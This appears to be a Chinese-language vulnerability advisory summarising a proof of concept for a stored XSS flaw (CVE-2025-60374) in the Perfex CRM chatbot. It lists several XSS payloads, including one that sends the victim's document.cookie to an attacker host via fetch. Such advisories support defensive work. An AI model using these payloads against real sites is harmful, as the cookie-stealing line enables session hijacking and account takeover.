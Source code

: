 ## CVE-2025-60374 - Perfex CRM Chatbot 存储型XSS

**漏洞编号:** CVE-2025-60374

**漏洞类型:** 存储型跨站脚本 (XSS)

**影响应用:** Perfex CRM

**危害等级:** 高危，可能导致会话劫持、账户接管、权限提升、数据窃取和网络钓鱼

**影响版本:** < 3.3.1

**利用条件:** 需要低权限用户认证，受害者需要浏览包含恶意代码的聊天消息

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2025-60374 是 Perfex CRM 聊天机器人功能中的一个存储型跨站脚本漏洞。受影响的版本低于 3.3.1。攻击者可以通过聊天机器人消息注入恶意 HTML/JavaScript 代码。由于对聊天机器人消息参数的输入验证不足，并且在呈现存储的消息时缺少输出编码，恶意代码会被存储在数据库中，并在其他用户浏览聊天消息时执行。PoC 包含了多种 XSS 攻击的示例，包括：

*   **基本 Image XSS:**  `<img src=x onerror=alert('XSS executed!')>`
*   **交互式 Button XSS:**  `<button onclick=alert('Click executed!')>Click here</button>`
*   **自动播放的嵌入内容:**  嵌入包含恶意代码的 iframe。
*   **事件驱动的 XSS:**  `<meter value=2 min=0 max=10 onmouseover=alert('XSS triggered!')>2 out of 10</meter>`
*   **Cookie 窃取示例:**  `<img src=x onerror="fetch('https://attacker.com/steal?cookie='+document.cookie)">`  该 payload 将受害者的 session cookie 发送到攻击者控制的服务器，从而实现完整的帐户接管。

利用方式包括窃取用户 Cookie、账户接管、权限提升（如果管理员查看恶意消息）、数据窃取以及网络钓鱼攻击。

漏洞利用代码主要用于演示XSS的利用方式，并未发现隐藏的投毒代码，判定投毒风险为0%。

**项目地址:** [ajansha/CVE-2025-60374](https://github.com/ajansha/CVE-2025-60374)

**漏洞详情:** [CVE-2025-60374](https://nvd.nist.gov/vuln/detail/CVE-2025-60374)